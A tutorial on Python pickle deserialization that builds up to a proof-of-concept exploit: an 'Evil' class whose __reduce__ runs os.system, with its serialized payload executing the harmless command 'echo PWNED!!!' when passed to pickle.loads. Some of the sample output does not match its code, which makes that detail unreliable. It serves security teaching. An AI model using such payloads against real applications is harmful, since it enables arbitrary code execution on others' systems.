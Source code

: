 # Python Pickle Deserialization Exploitation

## Serialization in python

In python, the default library used for serialization and deserialization is [pickle](https://docs.python.org/3.6/library/pickle.html).

```pickle.dumps(python_object): => plain string representation of the object```

Here's an example code snippet to demonstrate what serialization with pickle looks like:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)

print(type(pickled_data))
print(pickled_data)
```

Running the code we get a serialized string that represents the ```user``` object.

```console
<class 'bytes'>
b'\x80\x04\x95%\x00\x00\x00\x00\x00\x00\x00}\x94(\x8c\x08username\x94\x8c\x03bob\x94\x8c\x04role\x94\x8c\x05admin\x94u.'
```

This has now converted an object of type *dict* to a stream of bytes.

## Deserialization in python

When the data needs to be used, ```pickle.loads()``` is used to unpack and get the underlying object.

```pickle.loads(serialized_bytes): => original python object```

Here's an example to demonstrate deserialization with pickle:

```python
import pickle

class User(object):
    username = 'bob'
    role = 'admin'

pickled_data = pickle.dumps(User)
unpickled_data = pickle.loads(pickled_data)

print(type(unpickled_data))
print(unpickled_data.username)
print(unpickled_data.role)
```

This code snippet serializes the user object of type *dict* to bytes and then deserializes it back to the *dict* object. The output is as follows:

```console
<class 'type'>
bob
admin
```

## Manipulating the behaviour of pickling/unpickling

Pickle provides a way to execute arbitrary commands through the use of its ```__reduce__()``` method. To understand how this is possible, we must first take a look at the working of the ```__reduce__()``` method.

### __reduce__() explained

Pickle has certain restrictions as in not every object can be serialized. Objects such as file handles and others come with certain restrictions. The pickle docs give an overview of [what can be pickled and unpickled](https://docs.python.org/3/library/pickle.html#what-can-be-pickled-and-unpickled).

For the special cases where an object cannot be pickled, pickle allows you to define custom behaviours of the pickling process for your class instances. Let's take an example of what happens when a file descriptor is serialized:

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

file_tester = Demo('/home/bob/test.txt')
pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor
```

As expected we get the following error:

```console
Traceback (most recent call last):
  File "test.py", line 22, in <module>
    pickle.dumps(file_tester)                   # Attempt to serialize an object containing a file descriptor
TypeError: cannot pickle '_io.BufferedWriter' object
```

This is where the ```__reduce__()``` method comes into play. We can define how we want pickle to serialize this object.

```python
import pickle

class Demo(object):
    def __init__(self, file_path):
        self.some_file = file_path
        self.some_random_file = open(file_path, 'wb')    # Open a file in write mode

    def __reduce__(self):
        return(self.__class__, (self.some_file, ))     # Pass a blank object class and a tuple to pass to the class constructor

file_tester = Demo('/home/bob/test.txt')
saved_object = pickle.dumps(file_tester)    # Attempt to serialize an object containing a file descriptor

print("Serialized: ")
print(saved_object)
print("Deserialized: ")
print(vars(pickle.loads(saved_object)))    # Print vars of the deserialized object including the file descriptor
```

The ```__reduce__()``` method according to the python [docs](https://docs.python.org/3/library/pickle.html#object.__reduce__) needs a tuple of atleast 2 things:

1. A blank object class to call. In this case, ```self.__class__```
2. A tuple of arguments to pass to the class constructor. In this case it is a single string ```self.some_file``` which is the path to the file to open.

This time around we see that the object has been serialized. We deserialize it soon after and the output is as follows:

```console
Serialized:
b'\x80\x04\x95#\x00\x00\x00\x00\x00\x00\x00\x8c\x08__main__\x94\x8c\x04Demo\x94\x93\x94\x8c\x07/home/bob/test.txt\x94\x85\x94R\x94.'
Deserialized:
{'some_file': '/home/bob/test.txt', 'some_random_file': <_io.BufferedWriter name='/home/bob/test.txt'>}
```

Therefore, by using ```__reduce__()``` in a class whose instances we need to pickle, we can give the pickling process a callable plus some arguments to run. The purpose of the method is for reconstructing objects however, we can utilize this for code execution.

## Exploiting pickle

Now we abuse the reduce method by inserting code in it as follows:

```python
import pickle
import os

class Evil(object):
    def __reduce__(self):
        cmd = 'echo PWNED!!!'
        return (os.system, (cmd, ))

pickle_data = pickle.dumps(Evil())
print(pickle_data)
```

The output will produce the serialized byte stream: ```b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'```. We can pass this as input to a vulnerable application that attempts to directly deserialize this without any sanitization. This is demonstrated as follows:

```python
import pickle

evil_input = b'\x80\x04\x95(\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\recho PWNED!!!\x94\x85\x94R\x94.'
unpickled_data = pickle.loads(evil_input)
```

On deserialization, the reduce method is called and as a result, code is executed

```console
$ python3 test.py
PWNED!!!
```
